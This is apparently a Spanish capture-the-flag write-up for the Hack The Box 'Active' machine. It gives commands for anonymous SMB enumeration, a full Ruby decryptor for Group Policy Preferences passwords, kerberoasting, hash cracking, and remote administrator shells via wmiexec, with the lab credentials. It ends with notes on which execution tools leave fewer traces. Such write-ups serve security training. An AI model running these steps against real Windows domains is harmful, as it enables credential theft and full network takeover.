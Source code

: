 ```yaml
---
title: Active
layout: default
---
```


```bash
smbclient //10.10.10.100/Replication -N
```

Para descargar una carpeta de forma recursiva en smb:

```bash
smb: \> mask ""
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
```

El archivo `groups.xml`

Suele contener credenciales
```
active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
```

Esta contraseña encriptada se conoce como una **contraseña de preferencias de política de grupo (GPP)**. Microsoft usó una clave simétrica para encriptar estas contraseñas, y la **clave** fue **revelada públicamente**.

```ruby
#!/usr/bin/ruby
require 'rubygems'
require 'openssl'
require 'base64'

unless ARGV.length == 1
  puts "Usage: #{File.basename($0)}: encrypted_data"
  exit
end

encrypted_data = ARGV[0]

#encrypted_data = "j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"

def decrypt(encrypted_data)
padding = "=" * (4 - (encrypted_data.length % 4))
epassword = "#{encrypted_data}#{padding}"
decoded = Base64.decode64(epassword)

key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"
aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")
aes.decrypt
aes.key = key
plaintext = aes.update(decoded)
plaintext << aes.final
pass = plaintext.unpack('v*').pack('C*') ## UNICODE conversion

return pass
end

blah = decrypt(encrypted_data)
puts blah
```

Luego hacemos kerberoasting con las creds obtenidas:

```python
GetUserSPNs.py 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request
```

Se obtiene el hash del administrador y se rompe por fuerza bruta

```bash
john -w=/usr/share/wordlists/rockyou.txt hash
```

No podemos conectarnos con evil-winrm, pero netexec nos tira pwned:

```bash
netexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968' -d active.htb
```

Asi que 

```python
wmiexec.py 'Administrator:Ticketmaster1968@10.10.10.100'
```

- **psexec.py** es una herramienta poderosa que permite la ejecución de comandos con privilegios de SYSTEM, pero deja rastros evidentes en el sistema remoto, como la creación de un binario y un servicio. Sin embargo, realiza una limpieza automática si la sesión se cierra correctamente, lo que puede ayudar a minimizar su huella.
    
- **smbexec.py**, por otro lado, no crea un binario, lo que puede hacerla menos detectable. Sin embargo, al igual que psexec.py, crea un servicio en el sistema remoto. Aunque realiza una limpieza automática, si el comando falla antes de la limpieza, los archivos no se eliminarán, dejando artefactos en el sistema remoto. Además, smbexec.py tiene la limitación de que solo puede utilizar rutas absolutas. Esto significa que todos los comandos deben especificar la ruta completa al archivo o directorio que quieren acceder, lo que puede ser un inconveniente en algunos casos.
    
- **wmiexec.py** no crea un binario ni un servicio, lo que la hace menos detectable que las otras dos herramientas. Sin embargo, requiere acceso de escritura al recurso compartido ADMIN$, lo que puede limitar su utilidad en algunos escenarios. Además, a diferencia de las otras dos herramientas, wmiexec.py proporciona acceso como Administrator en lugar de SYSTEM.